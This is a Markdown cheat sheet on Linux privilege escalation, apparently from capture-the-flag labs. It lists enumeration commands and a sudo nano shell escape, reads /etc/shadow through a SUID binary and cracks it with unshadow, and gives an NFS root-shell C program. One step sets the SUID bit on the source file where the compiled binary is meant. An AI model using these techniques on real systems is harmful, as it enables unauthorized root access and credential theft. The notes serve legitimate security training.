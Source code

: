 # Privilage Escalation

the `hostname` command will return the hostname of the target machine. Although this value can easily be changed or have a relatively meaningless string

`uname -a` print system information giving us additional detail about the kernel used by the system.

`/proc/version` may give you information on the kernel version and additional data such as whether a compiler (e.g. GCC) is installed.

the `/etc/issue` file. This file usually contains some information about the operating system but can easily be customized or changes.

The output of the `ps` (Process Status) will show the following:

* **PID:** The process ID (unique to the process)
* **TTY:** Terminal type used by the user
* **Time:** Amount of CPU time used by the process (this is NOT the time this process has been running for)
* **CMD:** The command or executable running (will NOT display any command line parameter)

`ps -A` View all running processes `ps axjf` View process tree `ps aux`

* The aux option will show processes for all users (a)
* Display the user that launched the process (u)
* Show processes that are not attached to a terminal (x)

The `env` command will show environmental variables.

The `sudo -l` command can be used to list all commands your user can run using `sudo`.

The `id` command will provide a general overview of the user’s privilege level and group memberships.

`/etc/passwd` file can be an easy way to discover users on the system.

The `ip route` command to see which network routes exist.

#### Netstat comman

The `netstat` command can be used to gather information on existing connections:

`netstat -a` shows all listening ports and established connections.

`netstat -at` or `netstat -au` can be used to list TCP or UDP protocols respectively.

`netstat -l` list ports in “listening” mode.

* These ports are open and ready to accept incoming connections.
* This can be used with the “t” option to list only ports that are listening using the TCP protocol

`netstat -s` list network usage statistics by protocol

* This can also be used with the `-t` or `-u` options to limit the output to a specific protocol.

`netstat -tp` list connections with the service name and PID information.

`netstat -i` Shows interface statistics.

`netstat -ano` which could be broken down as follows:

* `-a` Display all sockets
* `-n` Do not resolve names
* `-o` Display timers

#### find Command

`find . -name flag1.txt` find the file named “flag1.txt” in the current directory

`find /home -name flag1.txt` find the file names “flag1.txt” in the /home directory

`find / -type d -name config` find the directory named config under “/”

`find / -type f -perm 0777` find files with the 777 permissions (files readable, writable, and executable by all users)

`find / -perm a=x` find executable files

`find /home -user frank` find all files for user “frank” under “/home”

`find / -mtime 10` find files that were modified in the last 10 days

`find / -atime 10` find files that were accessed in the last 10 day

`find / -cmin -60` find files changed within the last hour (60 minutes)

`find / -amin -60` find files accesses within the last hour (60 minutes)

`find / -size 50M` find files with a 50 MB size

* This command can also be used with `(+)` and `(-)` signs to specify a file that is larger or smaller than the given size.

**Find world-writeable folders:**

* `find / -writable -type d 2>/dev/null`
* `find / -perm -222 -type d 2>/dev/null`
* `find / -perm -o w -type d 2>/dev/null`

**Find world-executable folders:**

* `find / -perm -o x -type d 2>/dev/null`

**Find development tools and supported languages:**

* `find / -name perl*`
* `find / -name python*`
* `find / -name gcc*`

`find / -perm -u=s -type f 2>/dev/null` Find files with the SUID bit, which allows us to run the file with a higher privilege level than the current user.

### Automated Enumeration Tools

* **LinPeas:** https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
* **LinEnum:** https://github.com/rebootuser/LinEnum
  * https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh
* **LES (Linux Exploit Suggester):** https://github.com/mzet-/linux-exploit-suggester
* **Linux Smart Enumeration:** https://github.com/diego-treitos/linux-smart-enumeration
* **Linux Priv Checker:** https://github.com/linted/linuxprivchecker

#### LinEnum get on the target machine

* Go to the directory that you have your local copy of LinEnum stored in, and start a Python web server using `python3 -m http.server 8000` .
* Then using `wget` on the target machine, and your local IP, you can grab the file from your local machine.
* Then make the file executable using the command `chmod +x FILENAME.sh`.

## Privilege Escalation - sudo

* Run `sudo nano` and press CTRL+R and CTRL+X.
* Enter the following command to gain root access: `reset; bash 1>&0 2>&0` and press Enter.

## Privilege Escalation SUID (Set-user Identification)

* **SUID (Set-user Identification)** The SUID bit set for the nano text editor allows us to create, edit and read files using the file owner’s privilege.
* `find / -type f -perm -04000 -ls 2>/dev/null`
* `nano /etc/shadow` will print the contents of the `/etc/shadow` file.
* `unshadow passwd.txt shadow.txt > passwords.txt`

`base64 /etc/passwd | base64 --decode`

* **SGID (Set-group Identification**

## Privilege Escalation Capabilities

The capabilities man page provides detailed information on its usage and options.

`getcap -r / 2>/dev/null`

When run as an unprivileged user, `getcap -r /` will generate a huge amount of errors, so it is good practice to redirect the error messages to `/dev/null`.

## Privilege Escalation Cron Jobs

Cron jobs are used to run scripts or binaries at specific times

`cat /etc/crontab` `locate antivirus.sh`

## Privilege Escalation Path

A simple search for writable folders can done using the `find / -writable 2>/dev/null` The output of this command can be cleaned using a simple cut and sort sequence. `find / -writable 2>/dev/null | cut -d "/" -f 2 | sort -u`

## Privilege Escalation NFS

NFS (Network File Sharing) configuration is kept in the /etc/exports file. This file is created during the NFS server installation and can usually be read by users.

Target computer:

* `showmount -e 10.10.2.12`
* `mount -o rw 10.10.2.12:/home/ubuntu/sharedfolder /folder`
* create code.c

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main (void) {
	setuid(0);
	setgid(0);
	system("/bin/bash -p");
	return 0;
}
```

* `gcc code.c -o code -w`
* `chmod +s code.c`

